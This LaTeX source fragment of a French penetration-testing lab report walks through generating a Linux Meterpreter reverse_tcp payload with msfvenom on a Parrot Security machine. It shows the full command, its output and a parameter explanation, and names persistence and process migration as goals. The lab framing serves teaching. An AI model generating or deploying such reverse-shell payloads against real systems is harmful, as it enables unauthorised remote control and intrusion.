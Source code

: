 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Solution :} Déployer un agent Meterpreter qui offre :
	\begin{itemize}
		\item Canal Meterpreter dédié en \texttt{reverse\_tcp} (non-TLS natif) pour la post-exploitation.
		\item Modules de post-exploitation intégrés.
		\item Gestion avancée de sessions.
		\item Persistance et migration de processus.
	\end{itemize}
	
	\subsection{Génération de la charge utile}
	
	\subsubsection{Création de la charge utile Meterpreter}
	
	Sur la machine attaquante (Parrot Security), nous générons un exécutable Meterpreter :
	
	\begin{lstlisting}[caption=Génération avec msfvenom]
		$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
		LHOST=192.168.100.150 \
		LPORT=4445 \
		-f elf \
		-o meterpreter.elf
		
		[-] No platform was selected, choosing Msf::Module::Platform::Linux
		[-] No arch selected, selecting arch: x64
		No encoder specified, outputting raw payload
		Payload size: 130 bytes
		Final size of elf file: 250 bytes
		Saved as: meterpreter.elf
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	\textbf{Explication des paramètres :}
	\begin{description}
		\item[-p linux/x64/meterpreter/reverse\_tcp] Charge utile Meterpreter pour Linux 64-bit avec connexion inverse.
		\item[LHOST] Adresse IP de l'attaquant où la charge utile se connectera.
		\item[LPORT] Port d'écoute sur la machine attaquante.
		\item[-f elf] Format ELF (Executable and Linkable Format pour Linux).
	\end{description}
	
\end{document}
